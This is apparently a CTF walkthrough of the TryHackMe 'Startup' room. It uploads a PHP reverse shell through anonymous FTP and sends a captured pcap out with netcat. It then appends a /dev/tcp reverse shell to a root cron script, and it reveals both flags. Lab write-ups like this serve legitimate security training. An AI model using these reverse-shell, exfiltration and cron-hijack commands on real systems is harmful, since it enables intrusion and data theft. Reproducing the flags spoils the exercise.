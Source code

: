 # Startup

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Startup](https://tryhackme.com/room/startup)
>
> ***We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root.*
>
> ![](.gitbook/assets/startup.png)

🎯 Target IP: `10.10.173.77`

## Recon

```bash
su
echo "10.10.173.77 startup.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir thm/startup
cd thm/startup
nmap startup.thm
    21/tcp open  ftp
    22/tcp open  ssh
    80/tcp open  http

nmap -sV -sC -Pn -oA startup startup.thm
```

```bash
21/tcp open  ftp  vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.18.65.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh  OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http  Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerate Web server directories

```bash
gobuster dir -u http://startup.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

```bash
/files (Status: 301) [Size: 310] [--> http://startup.thm/files/]
```

Navigate to

- `http://startup.thm/files/`

![](.gitbook/assets/image-20230515143244492.png)

Login via FTP with `anonymous`:`anonymous`. The files in the folder are the ones from the `/files` webpage.

```bash
ftp startup.thm

ls
```

![](.gitbook/assets/image-20230515143526046.png)

## Exploitation

Get a Reverse shell by uploading a `PHP` file via FTP and run it through the web page.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
nano php-reverse-shell.php
# Set $ip & $port
$ip = '10.18.65.48';
$port = 1234;

mv php-reverse-shell.php shell.php
```

```bash
# In the FTP anonymous session
cd ftp
put shell.php
```

```bash
nc -nvlp 1234
```

- Navigate to `http://startup.thm/files/ftp/shell.php` to get a reverse shell

![](.gitbook/assets/image-20230515145419274.png)

```bash
/usr/bin/script -qc /bin/bash /dev/null

ls
cat recipe.txt

ls -lah /home
	lennie

ls /incidents
	suspicious.pcapng

cp /incidents/suspicious.pcapng /var/www/html/files/smb
# Permissions denied
```

![](.gitbook/assets/image-20230515151802211.png)

Transfer `	suspicious.pcapng` using `netcat`

```bash
# Kali
nc -nvlp 5555 > susp.pcap

# Startup box
nc -nv 10.18.65.48 5555 < /incidents/suspicious.pcapng
```

Analyze the `susp.pcap` file in Wireshark or use the `strings` command

```bash
strings susp.pcap
```

![](.gitbook/assets/image-20230515152948262.png)

Try the string as password for `lennie` user.

```bash
su lennie
# password: c4ntg3t3n0ughsp1c3
# It works
```

> 📌 `lennie`:`c4ntg3t3n0ughsp1c3`

```bash
find / -type f -iname user.txt 2>/dev/null
cat /home/lennie/user.txt
```



<details>
<summary>Reveal Flag - user.txt: 🚩</summary>



`THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`

![](.gitbook/assets/image-20230515153155071.png)

</details>

Close the reverse shell and connect via SSH

```bash
ssh lennie@startup.thm
```

Perform some Enumeration with `lennie` user

```bash
ls -lah *
    -rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
    
    Documents:
    total 20K
    drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
    -rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
    -rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
    
    scripts:
    total 16K
    drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
    -rw-r--r-- 1 root   root      1 May 15 13:38 startup_list.txt

cat scripts/*
cat Documents/*
cat /etc/print.sh
ls -lah /etc/print.sh
	-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

![](.gitbook/assets/image-20230515154046856.png)

## Privilege Escalation

Since `planner.sh` will be run as root (with a cron job), and it contains the `/etc/print.sh` command script, modify `/etc/print.sh` and input a payload (a reverse shell for example) into it to run it as `root`.

```bash
echo "/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1" >> /etc/print.sh
```

Wait for the reverse shell on the attacker machine. The root will run the `planner.sh` script once a minute.

```bash
# Kali
nc -nvlp 3333
```

![](.gitbook/assets/image-20230515155056052.png)

```bash
find / -type f -iname root.txt 2>/dev/null
cat /root/root.txt
```





<details>
<summary>Reveal Flag - root.txt: 🚩</summary>


`THM{f963aaa6a430f210222158ae15c3d76d}`

![](.gitbook/assets/image-20230515155220667.png)

</details>



------

